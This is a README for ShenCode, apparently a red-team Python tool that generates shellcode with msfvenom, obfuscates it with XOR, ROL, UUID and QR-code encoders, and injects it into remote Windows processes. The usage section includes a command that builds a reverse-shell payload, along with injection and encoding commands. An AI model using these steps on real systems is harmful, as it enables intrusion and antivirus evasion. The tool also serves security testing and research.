

# ShenCode

A multi purpose tool for shellcode operations




## Features

### Version 0.5.0

- create
	- create shellcodes with msfvenom
	- create in-memory XOR Decoder (for technical details, visit this [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_polymorphic_in_memory_decoder))
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `QR-Code`: hide OpCodes as QR-Code image
	- `XOR` encryption
	- `UUID` obfuscation - Please, check out my [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_shellcode_als_uuids_tarnen_-_teil_1) about this encoder
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new `inspect` option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- Migrate: `extract, inject, msf, stub, ror2rol, bin2sc`
- class.nstate global class
- Update README
- Update Wiki
- Code cleanup
- Update requirements.txt
- ~~Migrate: `uuid, qrcode, xor`~~
- ~~Dynamic argparser~~

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **QR-Code**      | `encode --filename shell.raw --outputfile shell.enc --qrcode`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Make sure your metasploit binary folder is in your PATH variable

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
